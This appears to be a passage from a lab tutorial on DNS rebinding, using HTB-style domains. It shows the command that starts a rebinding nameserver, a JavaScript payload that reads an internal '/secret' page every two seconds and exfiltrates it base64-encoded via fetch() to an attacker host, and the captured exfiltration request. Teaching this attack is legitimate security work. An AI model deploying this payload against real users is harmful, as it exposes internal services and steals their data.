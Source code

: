 ```shell
sudo python3 dnsrebinder.py --domain www.attacker.htb. --rebind 192.168.178.1 --ip $PUBLIC_WEBSERVER_IP --counter 1 --tcp --udp

Starting nameserver...
UDP server loop running in thread: Thread-1
TCP server loop running in thread: Thread-2

```

Finally, we need to host the following payload on our web server and start our exfiltration server at `http://exfiltrate.attacker.htb:1337`:

```html
<script>
    startAttack();

    function startAttack(){
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://www.attacker.htb/secret', true);
        xhr.onload = () => {
          fetch('http://exfiltrate.attacker.htb:1337/log?data=' + btoa(xhr.response));
        };
        xhr.send();

    setInterval(startAttack, 2000);
    }
</script>

```

The payload calls itself every 2 seconds to increase the probability of a successful attack. If a victim accesses our website at `http://www.attacker.htb`, DNSRebinder executes the DNS rebinding such that we simply have to wait for the request to our exfiltration server:

```shell
python3 -m http.server 1337

Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [13/May/2023 10:29:09] code 404, message File not found
127.0.0.1 - - [13/May/2023 10:29:09] "GET /log?data=VGhpcyBpcyBzZWNyZXQgZGF0YSE= HTTP/1.1" 404 -

```

Simulating the victim, we can see the request accessing the internal web application in Burp:

![image](wlrcycAXK5zQ.png)

Afterward, the response is base64 encoded and exfiltrated to the attacker in the following request:

```http
GET /log?data=VGhpcyBpcyBzZWNyZXQgZGF0YSE= HTTP/1.1
Host: exfiltrate.attacker.htb:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: */*
Origin: http://www.attacker.htb
Referer: http://www.attacker.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
